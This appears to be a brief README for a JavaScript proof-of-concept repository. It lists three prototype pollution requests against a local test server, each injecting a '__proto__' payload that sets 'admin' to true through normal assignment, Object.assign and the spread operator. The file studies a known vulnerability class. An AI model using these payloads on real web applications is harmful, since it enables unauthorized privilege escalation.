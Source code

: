 # Javascript code

### All the POCs and garbage code goes here.

* Parameter Pollution - `routes/prototypepollution`

    Normal assignment - Request - `http://localhost:3000/proto?attr=__proto__&value={"admin":"true"}`

    Object.assign - Request - `http://localhost:3000/proto/2?value={"__proto__":{"admin":"true"}}`

    Spread operator - Request - `http://localhost:3000/proto/3?value={"__proto__":{"admin":"true"}}`